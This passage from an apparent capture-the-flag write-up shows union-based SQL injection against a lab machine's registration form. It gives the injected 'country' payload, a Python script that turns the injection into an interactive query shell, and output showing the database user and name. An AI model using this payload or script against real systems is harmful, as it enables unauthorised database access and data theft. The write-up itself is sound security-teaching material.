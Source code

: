 If I change the 1 to `user()`, I get the name of the user for the DB:

    
    
    username=0xdfaaaaaaa&country=Brazil' union select user();-- -
    

This results in:

![image-20210913211039611](https://0xdfimages.gitlab.io/img/image-20210913211039611.png)

### Script SQLI

This is another example where I could keep working out of Repeater, but it’s a
pain, and if I’m doing enumeration for any period of time, it’s nice to have a
shell. This is what I came up with:

    
    
    #!/usr/bin/env python3
    
    import random
    import requests
    from bs4 import BeautifulSoup
    from cmd import Cmd
    
    
    class Term(Cmd):
    
        prompt = "> "
    
        def default(self, args):
            name = f'0xdf-{random.randrange(1000000,9999999)}'
            resp = requests.post('http://10.10.11.116/',
                    headers={"Content-Type": "application/x-www-form-urlencoded"},
                    data={"username": name, "country": f"' union {args};-- -"})
            soup = BeautifulSoup(resp.text, 'html.parser')
            if soup.li:
                print('\n'.join([x.text for x in soup.findAll('li')]))
    
        def do_quit(self, args):
            return 1
    
    term = Term()
    term.cmdloop()
    

It doesn’t do anything special except give me the ability to fill in the
`union ...` statement with an SQL statement that returns one column and get a
result quickly.

For example:

    
    
    oxdf@parrot$ python3 sqli.py 
    > select user()
    uhc@localhost
    > select database()
    registration
    